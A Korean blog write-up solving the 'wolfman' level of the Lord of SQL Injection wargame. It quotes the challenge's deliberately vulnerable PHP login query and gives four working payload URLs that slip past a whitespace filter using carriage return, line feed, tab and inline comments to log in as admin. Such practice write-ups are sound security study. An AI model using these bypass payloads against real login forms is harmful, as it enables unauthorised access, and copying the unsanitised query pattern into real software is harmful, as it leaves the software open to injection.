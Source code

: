 ```yaml
---
title: Lord of SQL Injection Write Up No.5 Wolfman
date: 2019-08-16 14:19:32
updated:
categories:
  - Write Up
tags:
  - Lord of SQL Injection
  - Infosec
---
```


## 개요

{% img /image/los-main.png 300 %}

SQL Injection에 대한 지식을 쌓기 위해 [Lord of SQL Injection 사이트](https://los.eagle-jump.org/)의 문제를 풀고 해답을 정리한다.

이 문서에서는 Lord of SQL Injection 5번 wolfman 문제에 대하여 정리한다.

<!-- more -->

## 문제 분석

### 문제 출제 의도

공백문자(' ')를 사용하지 않고 원하는 문자열을 `SELECT` 하도록 SQL을 조작할 수 있는지 확인한다.

### 소스 코드 분석

wolfman 문제의 php 소스 코드는 다음과 같다.

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~");
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";
  if($result['id'] == 'admin') solve("wolfman");
  highlight_file(__FILE__);
?>
```

#### Filter

```php
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~");
```

- GET방식으로 `pw`를 받고, `pw`에 `prob`, `_`, `.`, `()` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.
- 또한, `pw`에 `공백문자(' ')` 가 들어 있으면 `No whitespace ~_~`가 뜨고 문제 풀이에 실패한다.

#### Query

```php
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";
  if($result['id'] == 'admin') solve("wolfman");
```

- 받은 `pw`가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.
- 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 `id`에 `"admin"`이라는 값이 들어있음'이다.

## Solution

1. CR(Carriage Return) 이용

   ASCII Code 표를 살펴보면 16진수로 `0x0D`는 `Carriage Return`에 해당한다.
   이는 MySQL에서 공백으로 인식하는 문자들 중 하나이다.

   ```url
   http://los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw='%0Dor%0Did='admin'--%0D-
   ```

   ```sql
   select id from prob_wolfman where id='guest' and pw='' or id='admin'-- -'
   ```

   이는 `$result['id']`에 `'admin'`이 들어가도록 하므로 문제가 풀린다.

2. LF(Line Feed)

   ASCII Code 표를 살펴보면 16진수로 `0x0A`는 `Line Feed`에 해당한다.
   이는 MySQL에서 공백으로 인식하는 문자들 중 하나이다.

   ```url
   http://los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw='%0Aor%0Aid='admin'%23
   ```

   ```sql
   select id from prob_wolfman where id='guest' and pw='' or id='admin'#'
   ```

   주석으로 `#`을 쓴 이유는 `-- -`을 사용할 때 가운데 공백으로 %0A를 사용하면 정상적으로 작동하지 않기 때문이다.

   이는 `$result['id']`에 `'admin'`이 들어가도록 하므로 문제가 풀린다.

3. Tab

   ASCII Code 표를 살펴보면 16진수로 `0x09`는 `Tab`에 해당한다.
   이는 MySQL에서 공백으로 인식하는 문자들 중 하나이다.

   ```url
   http://los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw='%09or%09id='admin'--%09-
   ```

   ```sql
   select id from prob_wolfman where id='guest' and pw=''	or	id='admin'--	-'
   ```

   이는 `$result['id']`에 `'admin'`이 들어가도록 하므로 문제가 풀린다.

4. 주석

   MySQL에서 구문 사이에 주석을 넣으면 공백이 없어도 정상적으로 동작한다.

   ```url
   http://los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw='/**/or/**/id='admin'%23
   ```

   ```sql
   select id from prob_wolfman where id='guest' and pw=''/**/or/**/id='admin'#'
   ```

   주석으로 `#`을 쓴 이유는 `-- -`을 사용할 때 가운데 공백으로 주석을 사용하면 정상적으로 작동하지 않기 때문이다.

   이는 `$result['id']`에 `'admin'`이 들어가도록 하므로 문제가 풀린다.
